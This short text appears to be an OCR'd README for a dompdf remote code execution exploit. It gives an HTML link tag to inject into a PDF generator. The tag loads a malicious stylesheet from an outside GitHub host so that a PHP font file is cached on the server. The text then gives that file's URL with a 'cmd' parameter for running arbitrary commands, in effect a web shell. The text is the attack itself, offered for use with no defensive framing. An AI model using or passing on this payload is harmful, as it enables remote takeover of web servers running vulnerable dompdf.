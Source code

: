inject this html tag to the pdf generator and it will access the exploit font that will then get caches and we can access it from the webserver
<link rel=stylesheet href="https://raw.githubusercontent.com/sneaky-wizard/dompdf_rce/main/exploit.css" />

to access the cached font and execute any command you want
[baseurl]/dompdf/lib/fonts/exploitfont_normal_4cbdc86ff75b10ac55846884a529e2f9.php?cmd=[command]

